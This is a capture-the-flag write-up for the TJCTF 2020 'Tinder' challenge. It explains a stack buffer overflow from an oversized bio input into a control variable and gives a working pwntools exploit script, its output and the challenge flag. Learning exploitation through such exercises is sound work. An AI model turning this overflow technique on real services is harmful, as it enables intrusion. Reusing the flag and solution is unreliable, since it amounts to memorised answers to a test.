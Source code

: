 # TJCTF 2020

## Tinder

> 25
>
> [Start swiping](tinder)!
> 
> `nc p1.tjctf.org 8002`
>
> Written by agcdragon

Tags: _pwn_ _x86_ _buf_


## Summary

Simple buffer overflow into variable to control code flow.


## Analysis

### Decompile with Ghidra

![](main.png)

The `input` function takes two parameters: buffer and length/16.  For Name (`local_28`), Username (`local_38`), Password (`local_48`), not a problem, a length of `1.0` will only read 16 bytes.  However, Bio (`local_88`) is allocated `64` bytes, yet the length parameter is `8.0` (`*16`), this can overflow into variables down stack, in particular `local_14`.

`local_14`, if set to `-0x3f2c2ff3` (`0xc0d3d00d`) will reveal the flag.

`main` function header:

![](mainh.png)

To overwrite `local_14` starting at `local_88`, just write `0x88 - 0x14` bytes followed by `0xc0d3d00d` and the flag is yours.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

#p = process('./tinder')
p = remote('p1.tjctf.org', 8002)

p.recvuntil('Name: ')
p.sendline('foo')
p.recvuntil('Username: ')
p.sendline('foo')
p.recvuntil('Password: ')
p.sendline('foo')
p.recvuntil('Bio: ')

payload = (0x88 - 0x14) * b'A'
payload += p32(0xc0d3d00d)
p.sendline(payload)
p.stream()
```

Output:

```
# ./exploit.py
[+] Opening connection to p1.tjctf.org on port 8002: Done

Registered 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd0\xd3\xc0' to TJTinder successfully!
Searching for matches...
It's a match!
Here is your flag: tjctf{0v3rfl0w_0f_m4tch35}
```